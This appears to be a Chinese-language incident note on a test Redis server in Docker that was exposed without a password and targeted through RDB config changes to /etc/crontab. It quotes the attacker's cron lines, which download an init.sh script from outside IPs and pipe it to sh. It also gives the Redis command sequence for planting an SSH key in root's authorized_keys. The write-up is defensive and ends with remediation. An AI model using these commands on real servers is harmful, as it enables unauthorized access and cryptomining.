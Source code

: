 # 通过 RDB 方式入侵，Redis 被攻击记录

## 1. 详情

发现 Redis 中突然多了几个 key

* backup1
* backup2
* backup3
* backup4

具体内容如下：

```sh
*/2 * * * * root cd1 -fsSL http://194.87.139.103:8080/cleanfda/init.sh | sh

*/3 * * * * root wget -q -O- http://194.87.139.103:8080/cleanfda/init.sh | sh


*/4 * * * * root curl -fsSL http://45.133.203.192/cleanfda/init.sh | sh

*/5 * * * * root wd1 -q -O- http://45.133.203.192/cleanfda/init.sh | sh
```

看起来都是去下载sh脚本的。



然后看了下 Redis 日志,一直再报错：

```text
 Failed opening the RDB file crontab (in server root dir /etc) for saving: Permission denied
```

大概是RDB的时候，保存时因为没有权限报错了。



然后看了下RDB相关配置：

```sh
spider:0>config get dir
 1)  "dir"
 2)  "/etc"
spider:0>config get dbfilename
 1)  "dbfilename"
 2)  "crontab"
```

好家伙，果然被改了，给改成了`/etc/crontab`。这不就是定时任务吗



然后再结合上多出来的几个 key 的内容，妥妥的被攻击了。

这RDB如果执行成功了，然后定时任务就算是被添加了，最终把脚本下载下来并执行，妥妥的矿机一个了。



好在是这个 Redis 是用 docker 跑的，权限问题，没有被得手。

因为是测试服务器，随便用 Docker 起了一个，也没设置密码，端口和IP绑定也没改，就差点中招。



被入侵成功的案例：

```sh
https://www.codenong.com/txiaoxiaoher-2511379/
```

网上找了下,还有通过 设置主从同步 的方式被入侵的 redis 的案例：

```sh
https://www.renfei.net/posts/1003500
```





## 2. 后记

其实本次最大的漏洞是在 docker 运行绑定端口的时候，绑定是的 0.0.0.0:6379。正确的应该绑定 127.0.0.1:6379。

首先，docker 在绑定端口的时候直接修改了防火墙，如果不指定IP，那么默认是 0.0.0.0:6379，docker 设置防火墙开放 0.0.0.0:6379，任何 IP 都可以访问 6379。但你如果设置 127.0.0.1:6379，那只有本机地址能访问 6379。所以造成了端口向外暴露。docker 会接管防火墙！

>  防火墙相关文档 https://www.cnblogs.com/qjfoidnh/p/11567309.html

其次，因为原本设计的 redis 是内部使用，并不对外公开，也就没有密码，直接裸奔，也造成了端口暴露以后在全互联网裸奔的情况。

最后，redis 是可以将内容保存到本地磁盘中的，这就造成了通过 redis 间接可以写入文件，例如：

redis 执行以下命令，将 ssh key 写入被害机器，注意首尾要加换行符

```sh
set jjj "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABA....\n\n"
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```

此时就将 ssh key 写入了 /root/.ssh/authorized_keys，就实现了免密登陆，黑客可以直接 ssh 进来了。同理还可以写入定时任务文件，让被害机器执行黑客的脚本。



**解决方案**

* 1）docker 开放端口的时候一定要指定 IP 地址
* 2）给 redis 增加密码验证

> 江湖凶险，即使是个测试服务器也不能掉以轻心

